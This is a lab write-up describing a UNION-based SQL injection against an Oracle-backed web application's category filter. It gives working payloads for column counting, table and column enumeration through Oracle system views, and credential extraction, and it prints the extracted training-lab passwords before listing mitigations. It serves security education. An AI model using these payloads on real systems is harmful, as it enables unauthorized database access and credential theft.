









## SQL Injection Attack – Listing Database Contents on Oracle

# Lab Overview

This lab demonstrates a SQL Injection vulnerability in the product category filter of a web application backed by an Oracle database.

The application returns SQL query results directly in the HTTP response. Because of this, it is possible to exploit the vulnerability using a UNION-based SQL injection to retrieve data from other database tables.

# The objective of this lab is to

. Identify database tables

. Identify column names

. Extract usernames and passwords

. Log in as the administrator user

---

## Vulnerability

The `category` parameter in the product filter is vulnerable to SQL injection.

The application constructs a backend query similar to:

```
SELECT name, description 
FROM products 
WHERE category = 'Lifestyle'
```

Because user input is directly inserted into the query without proper sanitization, an attacker can inject arbitrary SQL.

---

## Step 1 — Determining Number of Columns

To perform a UNION attack, the attacker must determine how many columns are returned by the query.

# Payload used:

```sql
' ORDER BY 2 --
```

If the query executes successfully, it indicates that the query contains at least two columns.

This confirms the correct column count for the UNION attack.
---

## Step 2 — Enumerating Database Tables (Oracle)

Unlike MySQL or PostgreSQL, Oracle stores metadata differently.

Oracle uses system views such as:
```
ALL_TABLES
```
to list tables accessible to the current user.

# Payload used:
```sql
' UNION SELECT table_name,NULL FROM all_tables --
```

This returns a list of database tables.

From the results, the table:
```
USERS_DZKJPO
```

was identified as containing user information.

---

## Step 3 — Enumerating Columns in the Users Table

In Oracle, column metadata is stored in:

```
ALL_TAB_COLUMNS
```

To retrieve column names for the identified table:
# payload used
```sql
' UNION SELECT column_name,NULL 
FROM all_tab_columns 
WHERE table_name='USERS_DZKJPO' --
```

The response revealed the columns:
```
USERNAME_BRRCIL
PASSWORD_UXHLLX
```
---

## Step 4 — Extracting User Credentials

Once the table and columns are identified, the attacker can retrieve the stored credentials.

# Payload used:

```sql
' UNION SELECT USERNAME_BRRCIL,PASSWORD_UXHLLX FROM USERS_DZKJPO --
```
The response returns:
```
administrator  b14uifoakoujvd49fx7
carlos         sfmbkvxvd5occwdmsq9a
wiener         jzqaeswdf5mnwljepncb
```

The administrator credentials were successfully extracted.

---


## Step 5 — Logging in as Administrator

Using the retrieved credentials:
```
Username: administrator
Password: b14uifoakoujvd49fx7
```
The attacker logs into the application and gains administrator access.

The lab is then successfully solved.

---

# Oracle Database Enumeration Concepts

Oracle databases expose metadata using system views.

Important ones used in this attack include:

|Oracle View | Purpose|
|------------|--------|
|`ALL_TABLES`|Lists tables accessible to the user|
|`ALL_TAB_COLUMNS`|Lists column information|
|`DUAL`	| Special Oracle table used for selecting expressions|

These views replace the information_schema used in many other database systems.

---

# Impact

Successful exploitation of this vulnerability allows an attacker to:

. Enumerate database tables

. Discover column names

. Extract sensitive data

. Retrieve user credentials

. Gain administrative access

This can lead to full compromise of the application.

---

## Mitigation

To prevent SQL injection vulnerabilities:

. Use parameterized queries (prepared statements).

. Avoid dynamic SQL query construction with user input.
 
. Implement input validation and sanitization.

. Use least privilege database accounts.

. Deploy Web Application Firewalls (WAFs) for additional protection.
---

## Lab Result

The SQL injection vulnerability was successfully exploited to retrieve credentials from the Oracle database and log in as the administrator user, completing the lab.

---

# Screenshots

# lab overview


# cloumn count


# union sql test


# database enumeration


# users Table


# payload injection


# users creds


# Acssesing DB 


# Admin cred


# Privilege escalation



